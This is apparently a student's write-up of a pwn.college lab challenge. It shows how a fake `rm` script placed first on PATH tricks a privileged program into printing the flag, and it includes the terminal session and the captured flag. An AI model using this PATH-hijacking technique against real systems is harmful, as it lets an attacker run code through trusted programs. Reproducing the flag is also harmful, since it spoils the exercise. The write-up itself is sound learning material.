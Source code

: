 # Challenge 5 : Hijacking Commands
This challenge is about Hijacking the `rm` command so it can `cat` the flag once given permission

## My solve
**Flag:** `pwn.college{Ue4tKyzagSsh2sjK_mO2AKPK6sn.QX3cjM1wiM5kjNzEzW}`

- I started by creating an `rm` script and writing the absolute path of `cat` command in it so it will read the flag
- Gave permission to `rm`
- Set PATH to /home/hacker/
- Ran /challenge/run to get the flag
```
hacker@path~hijacking-commands:~$ touch rm
hacker@path~hijacking-commands:~$ nano
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod ugo+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker/
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{Ue4tKyzagSsh2sjK_mO2AKPK6sn.QX3cjM1wiM5kjNzEzW}
```

## What I learned 
I learnt that you can hijack commands by creating a command with the same name and changing the PATH such that only the new command is accessible

## Incorrect tangents 
N/A

## References 
N/A
